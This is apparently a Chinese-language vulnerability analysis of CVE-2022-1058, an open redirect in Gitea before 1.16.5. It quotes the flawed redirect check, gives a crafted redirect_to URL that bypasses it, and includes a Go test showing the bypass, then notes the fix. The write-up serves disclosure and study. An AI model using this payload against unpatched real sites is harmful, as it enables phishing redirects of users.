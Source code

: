 # CVE-2022-1058 gitea open redirect

## 漏洞信息

- 漏洞类型：开放式重定向
- 漏洞版本：gitea prior to 1.16.5
- 漏洞简介：浏览器差异导致的url绕过

## repo介绍
gitea是一个go语言实现的git服务器，目前在github上已经有29.7k个star。

## 漏洞分析
在gitea的登陆页面上，会附加一个`redirect_to`参数来确定成功登陆以后跳转的页面。处理逻辑定位到[这里](https://github.com/go-gitea/gitea/blob/main/modules/context/context.go)处理了跳转的逻辑，对需要跳转的`loc`进行了简单的检查，判断是否存在以当前gitea项目所在的`settings.AppURL`以外的内容，如果是就跳过这个`loc`。
```go
// RedirectToFirst redirects to first not empty URL
func (ctx *Context) RedirectToFirst(location ...string) {
	for _, loc := range location {
		if len(loc) == 0 {
			continue
		}

		u, err := url.Parse(loc)
		if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower(setting.AppURL))) {
			continue
		}

		ctx.Redirect(loc)
		return
	}

	ctx.Redirect(setting.AppSubURL + "/")
}
```
这里的检测方式可以被绕过。使用如下跳转参数
```
https://try.gitea.io/user/login?redirect_to=/\/\/\/\/\/\/\/\/\/\/\/\/\/\thedailywtf.com
```
这里简单写一段代码做测试
```go
package main

import (
	"fmt"
	"net/url"
	"strings"
)

func main() {
	loc := "/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\thedailywtf.com"
	u, err := url.Parse(loc)
	if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower("http://try.gitea.io"))) {
		fmt.Println("evil input")
	}
	fmt.Println(u)
}
```
输出内容为
```
/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5Cthedailywtf.com
```
说明成功绕过检测。然后这个url会被返回给浏览器。一部分浏览器在解析时会将这个url理解为
```
//thedailywtf.com
```
导致开放式重定向

## 修复方式
添加了判断，过滤上面出现的情形
![image](images/1.png)

## 参考链接
- https://huntr.dev/bounties/4fb42144-ac70-4f76-a5e1-ef6b5e55dc0d/
- https://nvd.nist.gov/vuln/detail/CVE-2022-1058